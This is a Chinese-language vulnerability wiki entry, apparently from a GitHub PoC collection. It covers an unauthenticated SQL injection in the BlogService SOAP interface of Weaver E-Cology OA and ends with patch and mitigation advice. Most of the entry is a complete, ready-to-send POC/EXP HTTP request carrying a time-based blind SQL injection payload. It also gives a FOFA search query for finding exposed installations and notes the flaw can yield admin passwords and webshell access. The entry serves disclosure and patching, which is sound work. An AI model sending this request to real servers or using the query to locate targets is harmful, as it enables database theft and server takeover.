

# 泛微E-Cology BlogService SQL注入漏洞

# 漏洞描述

泛微E-Cology BlogService 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

影响版本

泛微E-Cology

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 严重 |
| 影响面 | 高 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="泛微-OA（e-cology）"

POC/EXP：

POST /services/BlogService HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
SOAPAction: 
Content-Type: text/xml;charset=UTF-8

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="webservices.blog.weaver.com.cn">
   <soapenv:Header/>
   <soapenv:Body>
      <web:sendSubmitRemind>
         <!--type: string-->
         <web:in0>1</web:in0>
         <!--type: string-->
         <web:in1>2</web:in1>
         <!--type: string-->
         <web:in2>3' AND (SELECT 3686 FROM (SELECT(SLEEP(10)))KzVQ) AND 'WxlZ'='WxlZ</web:in2>
      </web:sendSubmitRemind>
   </soapenv:Body>
</soapenv:Envelope>

涉及全网12w资产

# 修复方案

1. 升级修复方案

   官方已发布升级补丁包，支持在线升级和离线补丁安装，可在参考链接https://www.weaver.com.cn/cs/securityDownload.html进行下载使用。
   
   临时缓解方案
   
   临时缓解方案可能无法完全阻止漏洞的利用，强烈建议尽快升级到修复版本。
   
   1使用WAF等安全设备进行防护。
   
   在不影响业务的情况下配置URL访问控制策略。
   
   限制访问来源地址，如非必要，不要将系统开放在互联网上。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
